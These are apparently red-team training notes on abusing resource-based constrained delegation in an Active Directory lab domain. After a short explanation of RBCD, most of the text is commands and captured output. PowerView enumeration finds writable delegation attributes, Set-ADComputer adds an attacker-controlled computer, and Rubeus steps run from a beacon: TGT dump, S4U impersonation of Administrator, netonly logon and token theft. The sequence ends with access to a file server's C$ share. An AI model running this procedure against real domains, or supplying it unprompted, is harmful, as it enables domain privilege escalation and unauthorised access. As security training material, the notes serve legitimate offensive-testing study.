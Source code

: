 
Constrained delegation is set on a front-end service and defines the back-end service(s) to which it can delegate to.  Modifying the msDS-AllowedToDelegateTo attribute of a service account (user or computer) requires the [SeEnableDelegationPrivilege](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/enable-computer-and-user-accounts-to-be-trusted-for-delegation) user-right assignment on domain controllers, which is only assigned to enterprise and domain admins.  Microsoft saw this as a problem because the service administrators had no useful way of knowing which front-end services delegated to resources that they were responsible for.

Windows 2012 introduced yet another form of delegation, called resource-based constrained delegation (often shorted to RBCD), which puts delegation control into the hands of the service administrators (e.g. it no longer requires SeEnableDelegationPrivilege to configure).  Now, instead of a front-end service dictating to which back-end services it can delegate to; it's the back-end service that controls which front-end services can delegate to it.

This is controlled by defining the front-end service account(s) in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the service account running the back-end service.  The only privilege required is write access to this attribute, which will typically be granted to an appropriate domain group via the Delegation of Control Wizard.

![[Pasted image 20250722105219.png]]

An admin with these delegated rights can then add the desired RBCD entries using the RSAT PowerShell cmdlets.

```powershell
$front = Get-ADComputer -Identity 'lon-ws-1'
$back = Get-ADComputer -Identity 'lon-fs-1'

Set-ADComputer -Identity $back -PrincipalsAllowedToDelegateToAccount $front
```

> Abusing RBCD is not the same as with the other flavours of delegation, in that compromising the front-end service will not lead to a compromise of the back-end service.  However, an adversary can leverage RBCD to gain access to any computer if the following conditions are met:

- They have write access to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of a computer object. 
    
- They have control of another principal that has an SPN set.

> It's much easier to enumerate and abuse RBCD through a SOCKS proxy.  In the examples below, I'm using explicit plaintext credentials to authenticate.

> [!NOTE] **NOTE**
> You're essentially first configuring RBCD and then abusing it after

### WriteProperty

To find instances where write access has been granted to this specific attribute, we first need its GUID.  Every GUID is [documented](https://learn.microsoft.com/en-us/windows/win32/adschema/attributes-all) so we can simply scroll down to 'ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity' and discover that its GUID is `3f78c3e5-f79a-46bd-a0b8-9d18116ddc79`.

The following PowerView query will fetch every computer in the domain and then reads each ACL in their DACL.  It only print results where the AceType equals the GUID for the msDS-AllowedToActOnBehalfOfOtherIdentity attribute, and the Right is WriteProperty.

```powershell
PS C:\Users\Attacker> ipmo C:\Tools\PowerSploit\Recon\PowerView.ps1
PS C:\Users\Attacker> $Cred = Get-Credential CONTOSO\rsteel
PS C:\Users\Attacker> Get-DomainComputer -Server 10.10.120.1 -Credential $Cred | Get-DomainObjectAcl -Server 10.10.120.1 -Credential $Cred | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -Match 'WriteProperty' } | select ObjectDN,SecurityIdentifier

ObjectDN                                        SecurityIdentifier
--------                                        ------------------
CN=LON-WS-1,OU=Member Servers,DC=contoso,DC=com S-1-5-21-3926355307-1661546229-813047887-1107
CN=LON-FS-1,OU=Member Servers,DC=contoso,DC=com S-1-5-21-3926355307-1661546229-813047887-1107
```

This output shows that 'something' with the SID of `S-1-5-21-3926355307-1661546229-813047887-1107` has the privilege we're looking for on both _lon-ws-1_ and _lon-fs-1_.  We can search through the users and groups in Active Directory to find to which this SID belongs.

```powershell
PS C:\Users\Attacker> Get-ADGroup -Filter 'objectsid -eq "S-1-5-21-3926355307-1661546229-813047887-1107"' -Server 10.10.120.1 -Credential $Cred

DistinguishedName : CN=Server Admins,CN=Users,DC=contoso,DC=com
GroupCategory     : Security
GroupScope        : Global
Name              : Server Admins
ObjectClass       : group
ObjectGUID        : 5ceea890-d8b7-47f3-918f-f6d3d040d70a
SamAccountName    : Server Admins
SID               : S-1-5-21-3926355307-1661546229-813047887-1107
```

This means that any member of the 'Server Admins' group can modify the attribute on these two computers.

>In the scenario outlined above, the privilege has been properly applied by granting it only on the relevant property.  However, you may see instances where the privilege is granted in more egregious ways, such as a GenericWrite or GenericAll on an entire object.  You will therefore have to take this into account when looking for these DACL abuse primitives.

The other requirement for RBCD abuse to work is access to an account that has an SPN set.  This is because all delegation, whether it be unconstrained, constrained, or resource-based, can only be configured on accounts that have an SPN.  This makes some amount of sense since an SPN is fundamental to how Kerberos works.

- Other computer accounts can be used if you have elevated privileges to SYSTEM anywhere, as every computer has a default set of SPNs such as HOST, RestrictedKrbHost, TERMSRV, and WSMAN.
    
- Service accounts can be used if you have obtained their credentials through an attack such as [kerberoasting](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=67851a86ba9789af1107f5f9).
    
- If you don't have any of the above, a last ditch attempt can be to add your own computer object to the domain.  Active Directory contains an attribute called `msDS-MachineAccountQuota` which controls the number of computer accounts that a user is allowed to create in the domain (yes, even standard domain users).  This is 10 by default.  Tools such as [StandIn](https://github.com/FuzzySecurity/StandIn) can create these fake computer objects via LDAP.

### The attack

```powershell
PS C:\Users\Attacker> Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount -Server 10.10.120.1 -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount

Name        PrincipalsAllowedToDelegateToAccount
----        ------------------------------------
LON-DC-1    {}
LON-WS-1    {}
LON-FS-1    {CN=LON-WS-1,OU=Member Servers,DC=contoso,DC=com}
LON-WKSTN-1 {}
LON-WKSTN-2 {}
```

>An AD property collection can only contain values of the same type.  Since _lon-fs-1_ already contains _lon-ws-1_, which is a computer account, we're not able to add a user account, such as _mssql_svc_ to it.  Since we don't want to remove lon-ws-1 (although we could), this pretty much forces us to use a computer account.

To add a computer that we have SYSTEM on, such as _lon-wkstn-1_, we can do:

```powershell
PS C:\Users\Attacker> $ws1 = Get-ADComputer -Identity 'lon-ws-1' -Server 10.10.120.1 -Credential $Cred
PS C:\Users\Attacker> $wkstn1 = Get-ADComputer -Identity 'lon-wkstn-1' -Server 10.10.120.1 -Credential $Cred
PS C:\Users\Attacker> Set-ADComputer -Identity 'lon-fs-1' -PrincipalsAllowedToDelegateToAccount $ws1,$wkstn1 -Server 10.10.120.1 -Credential $Cred
```

Now if we read the property back, we'll see our entry has been added (without overwriting the existing one).

```powershell
PS C:\Users\Attacker> Get-ADComputer -Identity 'lon-fs-1' -Properties PrincipalsAllowedToDelegateToAccount -Server 10.10.120.1 -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount

Name     PrincipalsAllowedToDelegateToAccount
----     ------------------------------------
LON-FS-1 {CN=LON-WS-1,OU=Member Servers,DC=contoso,DC=com, CN=LON-WKSTN-1,OU=Workstations,DC=contoso,DC=com}
```

To gain access to _lon-fs-1_, we need to extract or request a TGT for the principal we just added, and then perform the S4U steps through Rubeus.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap

[*] Target service  : krbtgt
[*] Target LUID     : 0x3e7
[*] Current LUID    : 0x152a73

  UserName                 : LON-WKSTN-1$
  Domain                   : CONTOSO
  LogonId                  : 0x3e7
  UserSID                  : S-1-5-18
  AuthenticationPackage    : Negotiate
  LogonType                : 0
  LogonTime                : 21/02/2025 06:15:36
  LogonServer              : 
  LogonServerDNSDomain     : contoso.com
  UserPrincipalName        : LON-WKSTN-1$@contoso.com


    ServiceName              :  krbtgt/CONTOSO.COM
    ServiceRealm             :  CONTOSO.COM
    UserName                 :  LON-WKSTN-1$ (NT_PRINCIPAL)
    UserRealm                :  CONTOSO.COM
    StartTime                :  21/02/2025 14:17:54
    EndTime                  :  22/02/2025 00:16:11
    RenewTill                :  28/02/2025 14:16:11
    Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  Gv0JODuazH1s79IqvftcBcxr8zo131LNay3BM0xnPcw=
    Base64EncodedTicket   :

      doIFr[...snip...]kNPTQ==
```

```powershell	  
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:LON-WKSTN-1$ /impersonateuser:Administrator /msdsspn:cifs/lon-fs-1 /ticket:doIFr[...snip...]kNPTQ== /nowrap

[*] Action: S4U

[*] Building S4U2self request for: 'LON-WKSTN-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'LON-WKSTN-1$@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF+[...snip...]4tMSQ=

[*] Impersonating user 'Administrator' to target SPN 'cifs/lon-fs-1'
[*] Building S4U2proxy request for service: 'cifs/lon-fs-1'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/lon-fs-1':

      doIGh[...snip...]nMtMQ==
```


```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:doIGh[...snip...]nMtMQ==

[*] Using CONTOSO.COM\Administrator:FakePass

[*] Showing process : False
[*] Username        : Administrator
[*] Domain          : CONTOSO.COM
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4568
[+] Ticket successfully imported!
[+] LUID            : 0x1355200
```


```powershell
beacon> steal_token 4568
beacon> ls \\lon-fs-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/23/2025 15:44:52   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     02/20/2025 10:37:21   Files
          dir     05/08/2021 09:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     01/24/2025 14:21:18   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/24/2025 14:18:02   System Volume Information
          dir     01/24/2025 14:17:49   Users
          dir     01/24/2025 13:34:02   Windows
 12kb     fil     02/21/2025 06:15:31   DumpStack.log.tmp
 1gb      fil     02/21/2025 06:15:31   pagefile.sys
```